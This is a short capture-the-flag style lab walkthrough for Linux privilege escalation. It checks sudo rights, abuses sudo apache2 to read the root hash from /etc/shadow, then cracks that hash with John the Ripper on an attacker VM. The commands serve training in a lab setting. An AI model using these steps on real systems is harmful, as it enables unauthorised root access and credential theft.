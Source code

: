 **Detection**

Linux VM

1. In command prompt type: 
   
```
sudo -l
```

![[Pasted image 20240601213957.png]]

2. From the output, notice the list of programs that can run via sudo.

**Exploitation**

Linux VM

1. In command prompt type:

```
sudo apache2 -f /etc/shadow
```

![[Pasted image 20240601214041.png]]

2. From the output, copy the root hash.

Attacker VM

1. Open command prompt and type:

```
echo '[Pasted Root Hash]' > hash.txt
```

2. In command prompt type:

```
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt
```

![[Pasted image 20240601214424.png]]

3. From the output, notice the cracked credentials.

Answer the questions below

Click 'Completed' once you have successfully elevated the machine
